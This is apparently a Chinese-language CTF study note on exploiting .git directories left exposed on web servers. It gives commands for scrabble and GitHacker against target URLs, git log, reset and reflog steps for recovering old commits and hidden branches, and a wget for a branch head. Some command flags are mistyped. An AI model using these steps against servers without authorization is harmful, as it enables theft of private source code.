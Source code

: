 # Git泄露

<aside>
💡 开发过程中遗忘.git文件，错误地提交到服务器，导致通过此文件获取往期源码

</aside>

1. 常规利用
    
    利用Scrabble工具直接获得源码：[工具地址](https://github.com/denny0223/scrabble)
    
    ```bash
    ./scrabble http://target.com/
    ```
    
2. Git回滚获取源码
    - Git覆盖
        
        ```bash
        echo “new content” > doc.php
        ```
        
        ```bash
        git add doc.php
        ```
        
        ```bash
        git commit -m "[version_name]"
        ```
        
    - Git回滚
        
        > 其中，HEAD表示当前版本，而HEAD^表示上一版本
        > 
        
        ```bash
        git reset --hard HEAD^
        ```
        
        1. 查看每个Commit修改了哪些文件
            
            ```bash
            git log -state
            ```
            
        2. 比较在当前版本与想查看的Commit之间的变化
            
            ```bash
            git diff HEAD commit -id
            ```
            
    - 隐藏的Git分支
        
        > Flag可能并不在master的分支中，尝试还原其他分支的代码
        > 
        
        利用GitHacker查看Git提交记录，分支移动记录：[工具地址](https://github.com/WangYihang/GitHacker)
        
        ```bash
        python GitHacker.py [http://ip:port/.git/]
        ```
        
        进入本地生成的文件夹，执行，查询得到master分支信息
        
        ```bash
        git log --all
        ```
        
        ```bash
        git branch -v
        ```
        
        查看checkout记录，获知提交记录，分支移动信息
        
        ```bash
        git reflog
        ```
        
        下载所需分支的Head信息，保存在本地同名同目录下
        
        ```bash
        wget http://ip:port/.git/refs/heads/[target_branch]
        ```
        
        修改`GitHacker.py`，使用`fixmissing`函数，检测Head下分支缺失的文件并恢复
        
        ```python
        if __name__ == "__main__":    
        # main()    
        base_url = complete_url("http://ip:port/.git/")    
        temp_path = replace_bad_char(get_prefix(base_url))    
        fixmissing(base_url, temp_path)
        ```
        

其他工具 

[https://github.com/lijiejie/GitHack](https://github.com/lijiejie/GitHack)